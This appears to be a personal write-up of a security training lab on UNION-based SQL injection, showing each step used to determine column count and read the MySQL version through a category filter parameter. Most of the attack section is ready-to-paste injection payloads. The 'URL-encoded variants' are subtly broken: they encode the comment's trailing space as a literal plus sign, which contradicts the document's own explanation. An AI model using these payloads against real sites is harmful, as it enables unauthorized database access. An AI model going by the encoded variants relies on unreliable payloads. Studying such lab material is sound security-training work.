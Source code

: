 # SQL Injection – MySQL Version Enumeration (UNION-based)

A concise write-up using **my original steps** (verbatim) with small, accurate notes and payload blocks.

---

## 🥅 Goal
**Query the MySQL database version** using `@@version` via a UNION-based injection.

---

## ✅ My Exact Steps (Verbatim)

1. **GOAL: query db version from mysql server.**

2. **Find vuln param: `/filter?category=Corporate+gifts'`**

3. **fix: `/filter?category=Corporate+gifts'+--+`**

4. **Add union to combine queries: `'+UNION+SELECT+NULL+--+` -> getting 500 status**

5. **adding column: `'+UNION+SELECT+NULL,NULL+--+` -> getting 200**

6. **we have reflection, lets try extracting the version: `'+UNION+SELECT+@@version,NULL+--+`**

7. **Lab solved!**

---

## 🧠 Minimal Additions (Why This Works)

- **UNION rules:** The injected `UNION SELECT` must match the **number of columns** (and ideally compatible types) from the original query.  
  - Step 4 (**1 column**) ⇒ **500 error** → mismatch.  
  - Step 5 (**2 columns**) ⇒ **200 OK** → column count now matches.
- **Choosing `NULL`:** `NULL` is type-flexible and helps avoid type errors during column discovery.
- **MySQL version source:** `@@version` returns the server version string in MySQL - Found by GOOGLE search (See picture).
- **Commenting remainder:** In MySQL, `--` starts a comment **if followed by a whitespace** (space, newline, etc.). Using `--+` ensures a trailing space (since `+` decodes as space). Alternatives: `#` (comment to EOL) or `/* ... */`.
- **URL encoding:** `+` is typically treated as a space in query strings. Where precision matters, use `%20` for an explicit space.

---

## 🔧 Payloads I Used (Copy/Paste)

**As entered (human-readable with `+` for spaces):**
```txt
/filter?category=Corporate+gifts'
/filter?category=Corporate+gifts'+--+
/filter?category=Corporate+gifts'+UNION+SELECT+NULL+--+
/filter?category=Corporate+gifts'+UNION+SELECT+NULL,NULL+--+
/filter?category=Corporate+gifts'+UNION+SELECT+@@version,NULL+--+
```

**URL-encoded variants (safe in raw requests):**
```txt
/filter?category=Corporate%20gifts%27
/filter?category=Corporate%20gifts%27--%2B
/filter?category=Corporate%20gifts%27%20UNION%20SELECT%20NULL--%2B
/filter?category=Corporate%20gifts%27%20UNION%20SELECT%20NULL%2CNULL--%2B
/filter?category=Corporate%20gifts%27%20UNION%20SELECT%20%40%40version%2CNULL--%2B
```

> Tip: If the app renders the **second column** on the page, swap positions (e.g., `NULL,@@version`).

---

## 🏁 Result
- The endpoint reflects `@@version`, revealing the **MySQL server version**. **Lab Solved. ✅**
